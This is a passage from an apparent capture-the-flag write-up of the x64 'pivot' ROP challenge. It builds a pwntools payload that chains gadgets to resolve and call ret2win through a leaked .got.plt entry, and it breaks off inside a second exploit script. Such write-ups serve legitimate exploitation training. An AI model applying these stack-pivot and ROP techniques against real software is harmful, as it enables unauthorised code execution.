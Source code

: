 ![pop rbp](/images/pivot/x64-pop-rbp.png)

Alright we have enough gadgets to calculate the address
for `ret2win`, now we need a gadget to jump to it

```
/R jmp rax
```

![jmp rax](/images/pivot/x64-jmp-rax.png)

Combining these gadgets with our curated values we
can construct a payload to call `ret2win`!

```python
#!/bin/python3
from pwn import *

pop_rax = 0x004009bb
add_rax_rbp = 0x004009c4
pop_rbp = 0x00400829
jmp_rax = 0x00400803
dereference_rax = 0x004009c0
foothold_got_plt = 0x601040
foothold_addr = 0x00400720
ret2win_offset = 0x117

# create flag payload
# call foothold_function() to lookup
# current .got.plt address
flag_payload = p64(foothold_addr)
# calculate ret2win address
flag_payload += p64(pop_rax) + p64(foothold_got_plt)
flag_payload += p64(dereference_rax)
flag_payload += p64(pop_rbp) + p64(ret2win_offset)
flag_payload += p64(add_rax_rbp)
# call ret2win
flag_payload += p64(jmp_rax)
```

## Exploit
We have everything we need to build our exploit

```python
#!/bin/python3
from pwn import *

pop_rax = 0x004009bb
add_rax_rbp = 0x004009c4
xchg_rsp_rax = 0x004009bd
pop_rbp = 0x00400829
jmp_rax = 0x00400803
dereference_rax = 0x004009c0
foothold_got_plt = 0x601040
foothold_addr = 0x00400720
ret2win_offset = 0x117

# set rsp to addr
def set_rsp(addr):
```